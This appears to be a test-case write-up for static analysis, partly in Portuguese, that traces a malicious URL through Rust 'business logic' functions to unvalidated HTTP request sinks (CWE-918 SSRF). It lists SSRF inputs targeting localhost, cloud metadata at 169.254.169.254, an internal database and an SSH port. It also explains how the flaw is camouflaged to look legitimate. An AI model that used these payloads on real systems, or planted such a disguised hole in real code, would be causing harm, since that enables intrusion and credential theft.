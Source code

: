 # Simulação CWE-918 SSRF - Input Malicioso

## **Input Malicioso Original**
```
http://evil.com/internal/admin
```

## **Flow through Transformers**

### **1. SOURCE (std::net::TcpStream::read)**
```rust
// Input recebido via TCP
let tainted_url = "http://evil.com/internal/admin";
```

### **2. Transformer 1: process_url_with_business_context**
```rust
// Input: "http://evil.com/internal/admin"
// Lógica: Detecta "admin" e aplica contexto de admin
// Output: "http://evil.com/internal/admin?category=analytics&auth_token=abc123&session_id=xyz789"
```

### **3. Transformer 2: enhance_url_with_advanced_routing**
```rust
// Input: "http://evil.com/internal/admin?category=analytics&auth_token=abc123&session_id=xyz789"
// Lógica: Adiciona parâmetros de roteamento e cache
// Output: "http://evil.com/internal/admin?category=analytics&auth_token=abc123&session_id=xyz789&cache=1&ttl=3600&rate_limit=100&window=60&monitoring=active&trace_id=def456&region=us_east&timezone=est"
```

### **4. Transformer 3: finalize_url_with_analytics_and_tracking**
```rust
// Input: "http://evil.com/internal/admin?category=analytics&auth_token=abc123&session_id=xyz789&cache=1&ttl=3600&rate_limit=100&window=60&monitoring=active&trace_id=def456&region=us_east&timezone=est"
// Lógica: Adiciona analytics, tracking e otimizações
// Output: "http://evil.com/internal/admin?category=analytics&auth_token=abc123&session_id=xyz789&cache=1&ttl=3600&rate_limit=100&window=60&monitoring=active&trace_id=def456&region=us_east&timezone=est&utm_source=internal_api&utm_medium=server_request&utm_campaign=business_logic&utm_content=network_ops&ab_test=variant_a&experiment_id=ssrf_optimization&compression=gzip&keep_alive=true&security_level=standard&audit_enabled=true&bi_enabled=true&reporting_level=detailed&loyalty_tier=gold&rewards_enabled=true"
```

### **5. Lógica Final de Negócio**
```rust
// Input: URL com todos os parâmetros
// Lógica: Adiciona parâmetros de prioridade para usuários premium
// Output: "http://evil.com/internal/admin?category=analytics&auth_token=abc123&session_id=xyz789&cache=1&ttl=3600&rate_limit=100&window=60&monitoring=active&trace_id=def456&region=us_east&timezone=est&utm_source=internal_api&utm_medium=server_request&utm_campaign=business_logic&utm_content=network_ops&ab_test=variant_a&experiment_id=ssrf_optimization&compression=gzip&keep_alive=true&security_level=standard&audit_enabled=true&bi_enabled=true&reporting_level=detailed&loyalty_tier=gold&rewards_enabled=true&priority=high&support_level=premium"
```

## **SINKS (Vulnerability Points)**

### **SINK 1: surf::get(tainted_url)**
```rust
// Faz requisição HTTP GET para a URL maliciosa
let _response = surf::get("http://evil.com/internal/admin?...").await;
// Result: Server makes request to evil.com, potentially exposing internal data
```

### **SINK 2: surf::connect(tainted_url)**
```rust
// Estabelece conexão TCP para a URL maliciosa
let _connection = surf::connect("http://evil.com/internal/admin?...").await;
// Result: Server establishes TCP connection with evil.com
```

## **Attack Scenarios**

### **Scenario 1: Access to Internal Resources**
```
Input: "http://127.0.0.1:8080/admin"
Result: Unauthorized access to internal admin panel
```

### **Scenario 2: Access to Cloud Metadata**
```
Input: "http://169.254.169.254/latest/meta-data/"
Result: Exposure of sensitive instance metadata
```

### **Scenario 3: Access to Internal Services**
```
Input: "http://internal-database:3306"
Result: Attempt to connect to internal database
```

### **Scenario 4: Port Scanning**
```
Input: "http://192.168.1.1:22"
Result: Attempt to SSH connect to internal server
```

## **Why it's Vulnerable**

1. **No Sanitization**: Transformers don't validate or filter URLs
2. **Realistic Business Logic**: Appears to be legitimate functionality
3. **Multiple Sinks**: Two different vulnerability points
4. **Camouflaging**: Function and file names appear legitimate
5. **Complex Flow**: Multiple transformations mask the vulnerability 